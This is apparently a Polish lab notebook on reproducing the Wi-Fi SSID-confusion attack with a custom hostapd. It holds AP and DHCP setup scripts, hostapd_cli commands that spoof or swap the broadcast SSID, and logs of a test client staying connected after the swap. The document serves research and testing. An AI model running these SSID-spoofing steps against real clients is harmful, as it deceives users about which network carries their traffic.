 ## **Co się udało:**

* Build custom wersji hostapd (bardzo niejasna instrukcja, większości trzeba sie domyślic)
* Ustawienie karty sieciowej zeby z nami wspolpracowala (network manager, monitor mode)
* Bash scripty do konfiguracji AP na naszej karcie sieciowej, prostego servera DHCP (cel - mobile client nie chce się połączyć do sieci jak nie dostaje zadnego IP)
* Postawienie AP - siec jest widoczna dla clienta ale no security -> no i tu jest glowny problem, w tym custom confie hostapd nie dziala wpa

## **No więc co sie dzieje:**

* Jak mamy postawiony server dhcp to client jest w stanie polaczyc sie do sieci ALE:

```bash
sudo ./hostapd hostapd_test.conf

wlo1: interface state UNINITIALIZED->ENABLED
wlo1: AP-ENABLED
>>> Simulating attack: Overwriting SSID in outgoing Beacon frames
>>> Simulating attack: Overwriting SSID of outgoing Probe Response
>>> Simulating attack: Overwriting SSID of outgoing Probe Response
>>> Simulating attack: Overwriting SSID of outgoing Probe Response
wlo1: STA 6e:69:91:91:90:fd IEEE 802.11: authenticated
>>> Simulating attack: Overwriting SSID of incoming Association Request
wlo1: STA 6e:69:91:91:90:fd IEEE 802.11: associated (aid 1)
wlo1: AP-STA-CONNECTED 6e:69:91:91:90:fd
wlo1: STA 6e:69:91:91:90:fd RADIUS: starting accounting session 18A9B916F883346D
>>> Simulating attack: Overwriting SSID of outgoing Probe Response
>>> Simulating attack: Overwriting SSID of outgoing Probe Response
>>> Simulating attack: Overwriting SSID of outgoing Probe Response
>>> Simulating attack: Overwriting SSID of outgoing Probe Response
```

Z jakiegos powodu nasz AP robi jakiego autha prze Radiusa XD. Próbowałem to wyłączyć przez zacomentowanie wszystkich ustawien z radiusem w hostapd/.config (jest nawet linijka do wyłączenia calego radiusa) - no ale efekt calt czas taki sam.

## **Jak to wyglada z perspektywy usera:**

* Stawiamy Siec connectssid - client ja widzi i moze sie polaczyc

Jak zrobimy ta komende co symuluje atak:
`./hostapd_cli -p wpaspy_ctrl raw "FAKESSID changedssid"`

* * Client zaczyna widzec po prostu inna siec "changedssid", jak chce to do niej rowniez sie moze polaczyc

### **Testowalem jeszcze ten optimized attack, tam sie robi tak ze stawiasz siec, laczysz sie do niej i dopiero jak juz masz clienta zasocjowanego to podmieniasz to ssid:**

```
./hostapd_cli -p wpaspy_ctrl raw "CHANGESSID changedssid"
```

Co sie wtedy dzieje - Połączony client sie po prostu rozlacza i po chwili widzi nowa siec "changedssid"

## **Moje skrypty w bashu zeby nie pisac milion razy tego samego**

### **`setup_ap.sh`:**

```bash
if [ "$EUID" -ne 0 ]; then
  echo "Please run as root"
  exit 1
fi

INTERFACE="wlo1"
IP_ADDRESS="192.168.100.1/24"

echo "Disabling Wi-Fi management by NetworkManager"
nmcli radio wifi off

echo "Unblocking Wi-Fi using rfkill"
rfkill unblock wifi

echo "Taking down interface $INTERFACE"
ip link set "$INTERFACE" down

echo "Setting interface $INTERFACE to AP mode"
iw "$INTERFACE" set type __ap

echo "Bringing up interface $INTERFACE"
ip link set "$INTERFACE" up

echo "Assigning IP address $IP_ADDRESS to $INTERFACE"
ip addr add "$IP_ADDRESS" dev "$INTERFACE"

echo "Wireless configuration:"
iwconfig
```

### **`setup_dhcp.sh`**

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  echo "Please run as root"
  exit 1
fi

INTERFACE="wlo1"
DNSMASQ_CONF="dnsmasq.conf"

echo "Setting up dnsmasq configuration"
cat <<EOF > "$DNSMASQ_CONF"
interface=$INTERFACE
dhcp-range=192.168.100.10,192.168.100.200,8h
dhcp-option=3,192.168.100.1
dhcp-option=6,192.168.100.1
server=8.8.8.8
# log-queries
# log-dhcp
EOF

echo "dnsmasq configuration written to $DNSMASQ_CONF"

echo "Starting dnsmasq with configuration: $DNSMASQ_CONF"
dnsmasq -d -C "$DNSMASQ_CONF"
```

### **`revoke_services.sh`**

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  echo "Please run as root"
  exit 1
fi

ACTION="$1"

if [[ "$ACTION" == "disable" ]]; then
  echo "Stopping, disabling, and masking systemd-resolved"
  systemctl stop systemd-resolved
  systemctl disable systemd-resolved
  systemctl mask systemd-resolved
  echo "systemd-resolved has been disabled and masked"
elif [[ "$ACTION" == "enable" ]]; then
  echo "Unmasking, enabling, and starting systemd-resolved"
  systemctl unmask systemd-resolved
  systemctl enable systemd-resolved
  systemctl start systemd-resolved
  echo "systemd-resolved has been restored"
else
  echo "Usage: $0 [disable|enable]"
  exit 1
fi
```

## **Kroki co sie robi po kolei żeby pamietac na przyszlosc:**

1. Build custom hostapd na podstawie .config (makefile)
2. Setup systemu i interfejsu pod ap (script albo z palca)
3. Zwolnienie portu żeby server dhcp dzialal
4. Setup servera dhcp
5. No a dalej próbujesz postępować z tym jakże skromnym readme na repo XD

---

## Kroki podjęte w celu sprawdzenia czy urządzenia są podatne oraz czy skrypt działa poprawnie:

* **Stworzenie serwera DHCP który po połączeniu do sieci przypiszę urządzeniu adres z puli:**



```bash
atis@atis-Latitude-5420:~/Desktop/ssid/ssid-confusion-hostap/hostapd$ sudo ./setup_dhcp.sh
Setting up dnsmasq configuration
dnsmasq configuration written to dnsmasq.conf
Starting dnsmasq with configuration: dnsmasq.conf
dnsmasq: started, version 2.90 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN DHCP DHCPv6 no-Lua TFTP conntrack ipset no-nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq-dhcp: DHCP, IP range 192.168.100.10 -- 192.168.100.200, lease time 8h
dnsmasq: using nameserver 8.8.8.8#53
dnsmasq: reading /etc/resolv.conf
dnsmasq: using nameserver 8.8.8.8#53
dnsmasq: using nameserver 127.0.0.53#53
dnsmasq: read /etc/hosts - 8 names
dnsmasq-dhcp: DHCPDISCOVER(wlp0s20f3) ce:30:57:8e:78:77
dnsmasq-dhcp: DHCPOFFER(wlp0s20f3) 192.168.100.85 ce:30:57:8e:78:77
dnsmasq-dhcp: DHCPDISCOVER(wlp0s20f3) ce:30:57:8e:78:77
dnsmasq-dhcp: DHCPOFFER(wlp0s20f3) 192.168.100.85 ce:30:57:8e:78:77
dnsmasq-dhcp: DHCPREQUEST(wlp0s20f3) 192.168.100.85 ce:30:57:8e:78:77
dnsmasq-dhcp: DHCPACK(wlp0s20f3) 192.168.100.85 ce:30:57:8e:78:77
```

* **Stworzenie “TrustedNet” do której podłączany jest użytkownik :**

```bash
atis@atis-Latitude-5420:~/Desktop/ssid/ssid-confusion-hostap/hostapd$ sudo ./hostapd hostapd_test.conf
wlp0s20f3: interface state UNINITIALIZED->ENABLED
wlp0s20f3: AP-ENABLED
wlp0s20f3: STA ce:30:57:8e:78:77 IEEE 802.11: authenticated
wlp0s20f3: STA ce:30:57:8e:78:77 IEEE 802.11: associated (aid 1)
wlp0s20f3: AP-STA-CONNECTED ce:30:57:8e:78:77
wlp0s20f3: STA ce:30:57:8e:78:77 RADIUS: starting accounting session BAC8A9A46C9E7BFB
wlp0s20f3: AP-STA-DISCONNECTED ce:30:57:8e:78:77
wlp0s20f3: STA ce:30:57:8e:78:77 IEEE 802.11: disassociated
wlp0s20f3: STA ce:30:57:8e:78:77 IEEE 802.11: deauthenticated due to inactivity (timer DEAUTH/REMOVE)
wlp0s20f3: INTERFACE-DISABLED
wlp0s20f3: INTERFACE-ENABLED
Failed to set beacon parameters
^Cwlp0s20f3: interface state ENABLED->DISABLED
wlp0s20f3: AP-DISABLED
wlp0s20f3: CTRL-EVENT-TERMINATING
nl80211: deinit ifname=wlp0s20f3 disabled_11b_rates=0
```

* **Podmiana SSID w trakcie kiedy użytkownik jest podłączony do “TrustedNet” na “WrongNet”**

```bash
atis@atis-Latitude-5420:~/Desktop/ssid/ssid-confusion-hostap/hostapd$ sudo ./hostapd_cli -p wpaspy_ctrl raw "CHANGESSID changedssid"
Selected interface 'wlp0s20f3'
OK
```

* **Po zmianie SSID w pakietach było ono podmieniane przez co dalej mieliśmy połączenie z użytkownikiem mimo który myślał, że dalej jest podłączony do “TrustedNet”**

```bash
atis@atis-Latitude-5420:~/Desktop/ssid/ssid-confusion-hostap/hostapd$ ping 192.168.100.85
PING 192.168.100.85 (192.168.100.85) 56(84) bytes of data.
64 bytes from 192.168.100.85: icmp_seq=1 ttl=64 time=18.7 ms
64 bytes from 192.168.100.85: icmp_seq=2 ttl=64 time=2.81 ms
64 bytes from 192.168.100.85: icmp_seq=3 ttl=64 time=85.2 ms
64 bytes from 192.168.100.85: icmp_seq=4 ttl=64 time=86.2 ms
64 bytes from 192.168.100.85: icmp_seq=5 ttl=64 time=109 ms
64 bytes from 192.168.100.85: icmp_seq=6 ttl=64 time=28.9 ms
64 bytes from 192.168.100.85: icmp_seq=7 ttl=64 time=52.6 ms
…
--- 192.168.100.85 ping statistics ---
26 packets transmitted, 26 received, 0% packet loss, time 25038ms
rtt min/avg/max/mdev = 2.365/57.484/109.894/35.192 ms
```

tutaj tak samo z tymi blokami, wloz tez ta reszte blokow ktora nie jest
